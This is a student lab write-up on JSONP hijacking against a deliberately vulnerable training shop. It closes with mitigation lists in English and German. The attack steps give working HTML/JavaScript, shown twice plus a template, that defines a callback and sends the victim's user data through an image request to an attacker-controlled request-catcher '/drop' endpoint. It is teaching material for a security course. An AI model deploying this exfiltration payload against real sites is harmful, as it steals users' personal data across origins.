 # JSON Hijacking Attack with JSONP

## Challenge

This challenge is about JSON \(JSONP\) hijacking. By doing such an attack you should understand the theory.

## Answer

### Explain the security problem 

* **JSONP** = JavaScript Object Notation with **Padding**
* Technique used to circumvent the Same-Origin Policy when transferring data with AJAX across

  different domains

* Browsers do not enforce SOP on the HTML &lt;script&gt; tag
* Padding refers to characters around the JSON payload, e.g.
  * `callback({employees: [{“firstName”: “John”, “lastName”: “Doe”}, ...]})`



### Explain your attack. \(exploit, screenshot, hacking journal\) 

Step 1\) Use old cowbell shop, buy some bells

![](../../.gitbook/assets/image%20%28366%29.png)

Step 2\) Use Theia Web IDE and change the change\_me.html to the following:

{% code title="change\_me.html" %}
```markup
<html>
<head>
<script>
var target="https://41961063-5823-447b-86c0-42221f35dfe6.idocker.vuln.land/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="https://glocken.vm.vuln.land/12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>
<html>
<head>
<script>
var target="https://41961063-5823-447b-86c0-42221f35dfe6.idocker.vuln.land/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="https://glocken.vm.vuln.land//12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>

```
{% endcode %}



Step 3\) Send attacker URL to the victim

![](../../.gitbook/assets/image%20%28379%29.png)

Step 4\) 

![](../../.gitbook/assets/image%20%28373%29.png)

Step 5\) 

```markup
<html>
<head>
<script>
var target="https://REQUEST_CATCHER_FQDN/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="{VULNERABLE COWBELL SHOP}/12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>
```

The attacker is defining the `invoke` method before `script src` an URL from the cowbell shop. The json data returned by the cowbell shop are jsonp - json with padding. This makes the hacker happy - as he can now exfiltrate the json data via his own `invoke` implementation.

### Explain mitigation \(remedy\)

* Use Anti XSRF-Tokens
* Begin the JSON-Response with an infinite loop:
* DO NOT USE JSONP!



## Lösung HL



* kein JSONP einsetzen!
* Use SameSite
* Use anti-XSRF on webserver. Only allow downloading JSON objects with valid anti-XSRF token.
* Insert invalid or problematic JavaScript at the start of the response \(e.g while\(1\);\).
* Only allow POST requests for JSON objects.

